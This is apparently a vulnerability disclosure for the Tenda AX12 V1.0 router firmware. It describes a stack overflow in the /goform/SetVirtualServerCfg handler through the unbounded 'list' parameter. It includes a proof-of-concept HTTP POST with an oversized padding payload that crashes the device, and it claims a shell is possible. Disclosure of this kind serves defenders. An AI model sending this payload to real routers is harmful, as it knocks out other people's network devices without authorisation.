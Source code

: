 ### **Overview**:
Affected Device: Tenda AX12 V1.0
Affected Firmware Version: V22.03.01.46
Impact: Denial of Service (DoS) attack, stack overflow leading to potential root shell access.
Firmware download link: https://www.tenda.com.cn/download/detail-3621.html

![](repo/Tenda%20AX12%20%20V1.0/2/img/xz.png)

### **Vulnerability**:
### **Vulnerability**:

The vulnerability is located in `/goform/SetVirtualServerCfg` where the request parameter `list` does not have a length restriction, ultimately leading to a stack overflow. The vulnerable function `sub_43B1B4` is present in the `httpd` file.

![](repo/Tenda%20AX12%20%20V1.0/2/img/v1.png)

The vulnerability exists in `sub_43AF3C`:

![](repo/Tenda%20AX12%20%20V1.0/2/img/v2.png)

As we can see, the request parameter `list` is passed to the variable `v3`, and since there is no length restriction on the variable `v3`, the subsequent `sscanf` function separates the value of `v3` using commas as delimiters and assigns them to `v12, v11, v10, v9`. These variables only require a certain length of padding to cause a stack overflow, which can easily lead to a denial of service attack. Furthermore, by constructing a suitable exploit, it is possible to gain shell access. The vulnerability is depicted in the following image:

![](vuln3.png)

### **POC**:
~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000
~~~
### **Impact Effect**:


![](repo/Tenda%20AX12%20%20V1.0/2/img/after.png)

